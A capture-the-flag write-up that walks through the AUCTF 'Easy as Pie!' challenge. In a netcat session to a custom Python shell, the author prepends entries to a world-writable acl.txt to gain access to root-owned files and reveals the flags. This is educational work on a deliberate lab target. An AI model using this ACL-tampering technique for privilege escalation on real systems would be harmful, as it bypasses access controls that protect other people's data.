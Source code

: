 ## Easy as Pie!

### Description

> My friend just spent hours making this custom shell! He's still working on it so it doesn't have much. But we can do some stuff! He even built a custom access control list for controlling if you can access files.
>
> Check it out!
>
> nc challenges.auctf.com 30010
>
> Author: kensocolo

### Analysis

access to the python shell and type `help`:

```bash
% nc challenges.auctf.com 30010
Welcome to my custom shell written in Python! To get started type `help`
user@pyshell$ help

Use help <command> for help on specific command.
================================================
cat  help  ls  write

```

try `ls` command:

```bash
user@pyshell$ ls
acl.txt
user.txt
flag.txt
```

here are 3 files, try to `cat` them:

```bash
user@pyshell$ cat flag.txt
Don't have da permzzz
user@pyshell$ cat user.txt
this is some user content. I bet u wish the flag was here
user@pyshell$ cat acl.txt
user.txt:user:600
.acl.txt:root:600
.flag.txt:user:600
flag.txt:root:600
acl.txt:root:606
user@pyshell$ cat .flag.txt
nope not here sorry :)
user@pyshell$ cat .acl.txt
Don't have da permzzz
```

>  we can see two hidden files after `cat acl.txt`

the owner of both `flag.txt` and `.acl.txt` are `root` and the privileges are `600`, so only root can read them.

maybe `acl.txt` means **a**ccess **c**ontro**l**?

type `help write`, we can find that the `write` command can add lines to the beginning of files

```bash
user@pyshell$ help write   

        write <content> <filename>
        adds content to the beginning of the file.
       
```

so, try to add access control rules to `acl.txt`

```bash
user@pyshell$ write flag.txt:user:666 acl.txt
flag.txt:user:666
user@pyshell$ write .acl.txt:user:666 acl.txt
.acl.txt:user:666
```

`cat` is work after rules added:

```bash
user@pyshell$ cat flag.txt
aUctf_{h3y_th3_fl4g}
user@pyshell$ cat .acl.txt
auctf{h4_y0u_g0t_tr0ll3d_welC0m#_t0_pWN_l@nd}
```


